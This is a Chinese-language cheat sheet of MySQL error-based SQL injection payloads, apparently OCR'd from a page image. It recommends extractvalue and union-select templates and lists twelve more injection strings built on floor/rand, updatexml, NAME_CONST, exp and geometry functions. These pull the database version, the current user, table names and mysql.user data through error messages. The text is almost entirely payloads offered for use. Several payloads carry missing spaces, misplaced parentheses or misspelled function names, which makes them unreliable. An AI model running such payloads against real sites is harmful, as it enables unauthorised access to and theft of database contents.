 #### 模板1：

```
and extractvalue('anything',concat('/',(Payload)))    将报错，不推荐使用。
```

#### 模板2：

```
union select 1,(extractvalue(1,concat(0x7e,(payload),0x7e))),3  不存在丢失报错成果的情况。推荐使用
```

### 其他报错注入模板

```
1、通过floor报错,注入语句如下:
and select 1 from (select count(*),concat(version(),floor(rand(0)*2))x from information_schema.tables group by x)a);

2、通过ExtractValue报错,注入语句如下:
and extractvalue(1, concat(0x5c, (select table_name from information_schema.tables limit 1)));

3、通过UpdateXml报错,注入语句如下:
and updatexml(1,concat(0x3a,(payload)),1)

4、通过NAME_CONST报错,注入语句如下:
and exists(select*from (select*from(selectname_const(@@version,0))a join (select name_const(@@version,0))b)c)

5、通过join报错,注入语句如下:
select * from(select * from mysql.user ajoin mysql.user b)c;

6、通过exp报错,注入语句如下:
and exp(~(select * from (select user () ) a) );

7、通过GeometryCollection()报错,注入语句如下:
and GeometryCollection(()select *from(select user () )a)b );

8、通过polygon ()报错,注入语句如下:
and polygon (()select * from(select user ())a)b );

9、通过multipoint ()报错,注入语句如下:
and multipoint (()select * from(select user() )a)b );

10、通过multlinestring ()报错,注入语句如下:
and multlinestring (()select * from(selectuser () )a)b );

11、通过multpolygon ()报错,注入语句如下:
and multpolygon (()select * from(selectuser () )a)b );

12、通过linestring ()报错,注入语句如下:
and linestring (()select * from(select user() )a)b );
```
